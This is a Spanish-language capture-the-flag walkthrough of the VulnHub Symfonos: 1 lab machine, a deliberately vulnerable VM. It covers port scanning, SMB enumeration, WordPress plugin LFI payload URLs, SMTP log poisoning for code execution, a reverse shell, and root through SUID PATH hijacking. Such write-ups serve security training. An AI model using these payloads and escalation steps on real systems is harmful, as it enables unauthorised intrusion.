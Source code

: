 # VulnHub - Symphonos: 1 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.131: Es la única máquina que queda, además tiene abiertos los puertos 22, 25, 80, 139 y 445.

Ahora que tenemos la máquina identificada, actualizamos el archivo /etc/hosts como indica el autor de la máquina virtual:
```bash
sudo nano /etc/hosts
```
![Consola](img/3.png)


En estos puertos corren los siguientes servicios:

- 22: ssh, sirve para conectarse al servidor
- 25: smtp, protocolo para la transferencia simple de correo
- 80: http, es una página web
- 139: netbios-ssn Netwoek Basic Input Output, comunica las aplicaciones web con el hardware
- 445: microsoft-ds, es usado por SMB (Server Message Block), un protocolo para compartir recursos en una red.

Dado que tenemos corriendo servicios que según su versión pueden ser vulnerables, correremos el siguiente comando:


```bash
sudo nmap -vvv -sV -sC 192.168.226.131 -p 22,25,80,139,445 -n -Pn -oN escaneo
```

Las flags empleadas realizarán lo siguiente:
- vvv: Proporciona los resultados por pantalla según se encuentren
- sV: Muestra la versión del servicio corriendo en el puerto
- sC: Corre contra esos servicios scripts predeterminados
- p: Los puertos a escanear
- n: Indica que no se debe de realizar la resolución DNS
- Pn: Le decimos a nmap que el host está encendido, por lo que no debe de comprobarlo previamente.
- oN: Guarda la salida en un archivo llamado escaneo

Tendremos ahora toda la información en el archivo escaneo:

![Consola](img/4.png)

Con lo cual, procedemos a clasificarla:

Puerto Servicio Versión
22/tcp ssh OpenSSH 7.4
25/tcp smtp
80/tcp http Apache httpd 2.4.25
139/tcp netbios-ssn Samba smbd 3.X - 4.X
445/tcp netbios-ssn Samba smbd 4.5.16

A través del navegador se puede acceder a la página web:

![Consola](img/5.png)

Aunque no proporciona información.

Intentaremos acceder a través de Samba, para ello podemos usar la herramienta enum4linux

```bash
enum4linux 192.168.226.131
```

Al correrlo sin ninguna flag proporciona más información:

![Consola](img/6.png)

Obtenemos un usuario llamado helios y tres directorios compartidos, siendo accesible sin identificarse el directorio de 192.168.226.131/anonymous.

Nos conectamos a este directorio a través del comando:

```bash
smbclient //192.168.226.131/anonymous
```

Y podremos acceder al terminal de Samba:

![Consola](img/7.png)

La consola de Samba no permite leer el archivo directamente, pero se puede descargar y examinar su contenido en local:

![Consola](img/8.png)

Ahora sabemos que hay un usuario helios y la indicación de no usar tres contraseñas:

- epidioko
- qwerty
- baseball

Probamos a entrar al directorio de helios con las contraseñas:

```bash
smbclient //192.168.226.131/helios -U helios
```

En este caso la contraseña es qwerty.

![Consola](img/9.png)

Hay dos archivos, los descargamos y examinamos:

![Consola](img/10.png)

Lo único interesante es el punto 3 del archivo todo.txt. Es un subdirectorio de la página web que posee el servidor:

![Consola](img/11.png)

Es una página web WordPress, por lo que la analizamos con WPScan:

```bash
wpscan --url http://symfonos.local/h3l105/ --api-token TOKEN_API
```

*Para obtener el TOKEN_API hay que registrarse en [WPScan](https://wpscan.com/)

Obtenemos mucha información, al ser este un WordPress desactualizado.

![Consola](img/12.png)

Con el objetivo de querer tomar el control del servidor web, hay que encontrar alguna vulnerabilidad de "Local File Inclusion":

![Consola](img/13.png)
![Consola](img/14.png)

Encontramos dos, de dos plugins distintos. Después de explorar en exploit-db el proof of concept, vemos que su uso es similar:

- http://<host>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
- http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

Empleando cualquiera de los enlaces superiores, se puede acceder al archivo /etc/passwd del servidor:

![Consola](img/15.png)

Como no se puede acceder con esta vulnerabilidad al archivo /etc/shadow, no es factible un ataque por fuerza bruta con john the ripper.

Aun así, se puede escalar un "Local File Inclusion" a un "Remote Code Execution". Para ello, buscamos un archivo al que hacerle "SMTP log poisoning". Este archivo se encontrará en /var/mail/helios. Para poder modificar su contenido, nos conectaremos al puerto 25 de la máquina víctima.

```bash
telnet 192.168.226.131 25
```

![Consola](img/16.png)

 Un ejemplo de cómo funciona este comando se encuentra en [Este enlace](http://www.unixcook.com/old-unix-docs/MIX-UNIX/smtp.txt)

 Comprobamos que el comando funciona:

![Consola](img/17.png)

Y entramos en [RevShells](https://www.revshells.com/) para crear nuestra reverse shell. En este caso a mi me funcionó la siguiente configuración:

![Consola](img/18.png)

Entraremos con el usuario helios, pero no en una tty, por lo que hacemos lo siguiente:

1. script /dev/null -c bash
2. Ctrl + z
3. stty raw -echo; fg
4. reset xterm

Ahora, al introducir el comando tty nos devolverá /dev/pts/0

Para el escalado, se puede usar un path hijacking, para ello buscaremos todos los archivos que puede ejecutar un usuario normal con permiosos:

```bash
find / -perm -4000 2>/dev/null
```
- find es el comando para buscar
- - / indica que busque en todo el sistema de archivos
- - -perm Es para que devuelva resultados según el permiso del archivo
- - -4000 Es para archivos que se pueden ejecutar sin permisos pero tienen permisos de root
- 2> Redirige todos los errores (archivos que no cumplen estas condiciones)
- - /dev/null es una carpeta que siempre está vacía, para no guardar lo que entra

![Consola](img/19.png)

Ahora, revisaremos con strings cada uno de estos archivos, debemos encontrar en uno tanto 'system' como un comando al que realizar el path hijacking.

![Consola](img/20.png)

1. echo /bin/sh > /tmp/curl
2. chmod 4777 /tmp/curl
3. export PATH=/tmp:$PATH
4. /opt/statuscheck

 ![Consola](img/21.png)

Con esto ya tendremos acceso de root y podremos ver la flag:

![Consola](img/22.png)
